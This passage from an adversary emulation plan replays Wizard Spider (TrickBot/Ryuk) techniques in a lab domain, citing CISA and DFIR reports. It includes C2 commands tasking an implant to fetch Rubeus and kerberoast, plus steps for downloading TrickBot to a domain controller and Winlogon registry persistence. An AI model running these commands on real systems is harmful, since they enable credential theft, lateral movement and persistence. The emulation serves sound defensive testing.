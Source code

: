 
### :biohazard: Procedures

```bash
# Wizard Spider has used Rubeus, MimiKatz Kerberos module, and the Invoke-Kerberoast cmdlet to steal AES hashes.[6][3][2][8]

./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/

<br>

## Test 3 (Step 7)

### Step 7 - Lateral Movement to DC 

:microphone: `Voice Track:`

In step 7 Wizard Spider RDP's into the domain controller as user vfleming.

Wizard Spider dowloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then establishes registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider enumerates the domain using the `adfind` utility.

```
Compromised user info:

User:	vfleming@oz.local

System: 10.0.0.4 / wizard

File Write (Tribot EXE variant): %AppData%\uxtheme.exe

Registry Write:  HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Key: Userinit

Value: Userinit.exe, $env:AppData\uxtheme.exe
```

---
